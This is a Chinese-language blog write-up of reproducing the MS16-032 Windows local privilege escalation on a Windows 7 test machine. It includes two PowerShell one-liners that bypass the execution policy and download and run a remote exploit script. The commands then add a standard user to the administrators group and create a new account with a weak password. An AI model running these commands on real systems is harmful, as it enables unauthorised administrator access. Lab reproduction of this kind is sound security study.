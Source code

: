 ```yaml
---
title: Windows7系统MS16-032本地提权
date: 2019-08-18 14:19:08
categories: 新随笔
tags: 漏洞复现
---
```

顺便再拿win7开个刀，玩玩MS16-032 windows本地提权。

## 一、exploit-db详情：
https://www.exploit-db.com/exploits/39719/
## 二、此漏洞影响从Vista到Windows 10的所有Windows版本（包括服务器版本）以及为了实现利用，因为PowerShell脚本指示需要满足以下要求：
### 1.目标系统需要有2个以上的CPU核心
### 2.PowerShell v2.0及更高版本必须正在运行
## 三、此漏洞会影响以下Microsoft产品：
Windows Vista
Windows 7
Windows 8.1
Windows 10
Windows 2008 Server
Windows 2012 Server
## 四、提权powershell脚本：
39719.ps1
## 五、测试详情：
### 1、测试机
Windows 7：test1（非管理员组）
![1](Windows7系统MS16-032本地提权/1.png)
![8](Windows7系统MS16-032本地提权/8.png)
### 2.先用powershell命令试试
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup administrators test1 /add'"

![2](Windows7系统MS16-032本地提权/2.png)
![3](Windows7系统MS16-032本地提权/3.png)
成功提权至管理员组，加个用户看看

powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user test2 123456 /add'"

![7](Windows7系统MS16-032本地提权/7.png)
![9](Windows7系统MS16-032本地提权/9.png)
### 3.试试网上公开的powershell脚本
39719.ps1

![4](Windows7系统MS16-032本地提权/4.png)

不行，看看提示

![5](Windows7系统MS16-032本地提权/5.png)
![6](Windows7系统MS16-032本地提权/6.png)

无果，希望师傅们邮件或者微博留言指导一下小弟~
